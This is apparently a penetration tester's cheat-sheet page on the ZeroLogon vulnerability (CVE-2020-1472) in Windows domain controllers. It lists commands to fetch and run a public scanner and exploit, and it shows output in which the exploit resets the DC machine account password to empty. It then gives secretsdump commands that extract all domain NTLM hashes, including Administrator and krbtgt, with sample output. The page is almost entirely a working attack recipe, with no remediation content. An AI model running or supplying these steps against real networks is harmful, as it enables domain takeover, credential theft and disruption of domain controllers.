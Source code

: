```yaml
---
title : "CVE-2020-1472"
# pre : ' '
description : "CVE-2020-1472 ZeroLogon."
date : 2020-09-15T10:19:46+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2020-1472 - ZeroLogon

{{%attachments title="Related files" fa_icon_class="fab fa-python" pattern=".*(py)"/%}}

### Scanner

```plain
git clone https://github.com/SecuraBV/CVE-2020-1472.git
pip install -r requirements.txt
```

#### Usage

```plain
$ python3 zerologon_tester.py DC2016 10.10.10.10
Performing authentication attempts...
=============================================================================
Success! DC can be fully compromised by a Zerologon attack.
```

Tip: for finding the computer name, use: rdesktop -u '' IP

### Exploit

```plain
git clone https://github.com/dirkjanm/CVE-2020-1472.git
```

```plain
$ python3 cve-2020-1472-exploit.py DC2016 10.10.10.10
Performing authentication attempts...
=========================================================
Target vulnerable, changing account password to empty string

Result: 0

Exploit complete!
```

Dump using 'no-pass' flag and computer account

```plain
$ secretsdump.py DC2016\$@10.10.10.10 -no-pass -just-dc
Impacket v0.9.22.dev1+20200914.162022.81d44893 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:102277341d6c113a28017200e1dfafe9:::
offsec.nl\johndo:1107:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\adm_johndo:1108:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\janedo:1110:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\tokio:1111:aad3b435b51404eeaad3b435b51404ee:b5165f7ba9b2b1a41245a1e91c48b3a9:::
[...]
[*] Cleaning up...
```

Or dump with empty hash

```plain
$ secretsdump.py DC2016\$@10.10.10.10 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 -just-dc
Impacket v0.9.22.dev1+20200914.162022.81d44893 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:102277341d6c113a28017200e1dfafe9:::
offsec.nl\johndo:1107:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\adm_johndo:1108:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\janedo:1110:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\tokio:1111:aad3b435b51404eeaad3b435b51404ee:b5165f7ba9b2b1a41245a1e91c48b3a9:::
[..SNIP...]
[*] Cleaning up...
```

### URL list

* [GitHub.com DirkJanM](https://github.com/dirkjanm/CVE-2020-1472)
* [Dirkjanm.io A different way of abusing zerologon](https://dirkjanm.io/a-different-way-of-abusing-zerologon/)
* [GitHub.com SecuraBV](https://github.com/SecuraBV/CVE-2020-1472/)
* [GitHub.com DirkJanM krbrelayx](https://github.com/dirkjanm/krbrelayx)
